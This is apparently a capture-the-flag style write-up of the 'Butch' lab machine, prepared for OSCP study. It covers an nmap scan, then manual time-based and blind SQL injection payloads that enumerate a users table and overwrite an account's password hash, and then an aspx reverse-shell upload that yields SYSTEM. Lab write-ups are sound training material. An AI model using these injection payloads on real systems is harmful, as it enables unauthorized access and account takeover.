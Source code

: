 #### Mind map

![Butch](https://user-images.githubusercontent.com/8998412/158007932-e61409eb-080e-48b8-b874-5d395cd7d659.png)

#### Enumeration

```
# Nmap 7.92 scan initiated Sun Feb 27 04:50:54 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/xml/_full_tcp_nmap.xml 192.168.184.63
Nmap scan report for 192.168.184.63
Host is up, received user-set (0.30s latency).
Scanned at 2022-02-27 04:50:54 EST for 477s
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
25/tcp   open  smtp          syn-ack ttl 127 Microsoft ESMTP 10.0.17763.1
| smtp-commands: butch Hello [192.168.49.184], TURN, SIZE 2097152, ETRN, PIPELINING, DSN, ENHANCEDSTATUSCODES, 8bitmime, BINARYMIME, CHUNKING, VRFY, OK
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH TURN ETRN BDAT VRFY
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
450/tcp  open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Butch
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=2/27%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=621B4B5B%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=U)
OPS(O1=M54ENW8NNS%O2=M54ENW8NNS%O3=M54ENW8%O4=M54ENW8NNS%O5=M54ENW8NNS%O6=M54ENNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M54ENW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: butch; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-02-27T09:58:14
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51234/tcp): CLEAN (Timeout)
|   Check 2 (port 45630/tcp): CLEAN (Timeout)
|   Check 3 (port 37138/udp): CLEAN (Timeout)
|   Check 4 (port 14133/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 1s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   295.76 ms 192.168.49.1
2   295.78 ms 192.168.184.63

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 27 04:58:51 2022 -- 1 IP address (1 host up) scanned in 477.73 seconds

```

I find the website that runs on port 450 has SQL injection vulnerability by using the waiting test.

```SQL
'; WAITFOR DELAY '00:00:10'; --
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_15h14m52s_001.png)

Attempts to log in using the usernames ```admin``` and ```administrator``` failed.

```SQL
' or 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_15h21m20s_002.png)

Because we can't use automatic exploitation tools in the exam, I start doing it manually.

First, we must know the name of the field.

```SQL
' HAVING 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_15h34m35s_003.png)

```SQL
' GROUP BY users.username HAVING 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_15h37m46s_004.png)

```SQL
' GROUP BY users.username, users.password_hash HAVING 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_15h38m52s_005.png)

Now we know that the data table users has two fields username and password_hash.

Check how many data are in the data table users. We can see from the query below that there is only one data.

```SQL
'; IF (SELECT COUNT(*) FROM users) = 1 WAITFOR DELAY '00:00:05'; --
```
Finding the username ```butch```.

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 97) WAITFOR DELAY '00:00:05'; --
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 98) WAITFOR DELAY '00:00:05'; -- 
-- and so on
```

Guessing the length of the password by the command below.

```SQL
'; IF (SELECT LEN(password_hash) FROM users) > 10 WAITFOR DELAY '00:00:05'; -- 
-- and so on
```

Finally, we know that the password length is 64, so it may have been hashed. Because of the length of the password so I guessed that may use SHA-256 hash. (Because manually guessing all the password is too slow and may not be able to restore the original password we try to update directly.)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h05m30s_006.png)

Now we update the new password ```123456```.

```SQL
-- 123456
'; UPDATE users SET password_hash = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WHERE user = 'butch'; -- 
-- check if update is successful
'; IF (SELECT password_hash FROM users WHERE user = 'butch') = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WAITFOR DELAY '00:00:05'; -- 
```

Login with username ```butch``` and password ```123456```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h18m08s_007.png)

This page looks like an upload page written in aspx, we try to use the bypass technique here to see if we can upload the reverse shell page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h28m52s_008.png)

Prepare a reverse shell page. I add the output string to see if it can be executed properly.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h31m32s_009.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h32m03s_010.png)

Uploading the page file and starting a listener at port 450.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h34m18s_011.png)

Browsing to url ```http://192.168.202.63:450/shell.aspx```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h35m10s_012.png)

We get the shell.
 
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h37m10s_013.png)
 
#### Privilege escalation

Because we already have ```nt authority\system``` privilege, we don't need to escalate.
 
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Butch/Butch_2022.03.12_16h37m10s_013.png)
